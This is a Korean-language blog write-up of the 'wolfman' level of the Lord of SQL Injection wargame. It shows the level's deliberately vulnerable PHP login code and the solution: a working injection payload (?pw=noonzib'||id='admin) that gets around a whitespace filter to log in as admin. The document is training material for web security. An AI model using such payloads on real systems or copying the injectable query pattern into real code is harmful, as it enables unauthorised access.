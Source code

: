 ```yaml
---
layout: post
title:  "los prob_wolfman"
date:   2019-08-23
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_wolfman where id='guest' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* 공백이 필터링 -> 우회 -> "||" 사용
* 연산자 우선 순위 -> and > or 

### ?pw=noonzib'||id='admin

## WOLFMAN Clear!

> 문제 의도는 웬지 공백 우회를 '%0a'로 하는 것 같음 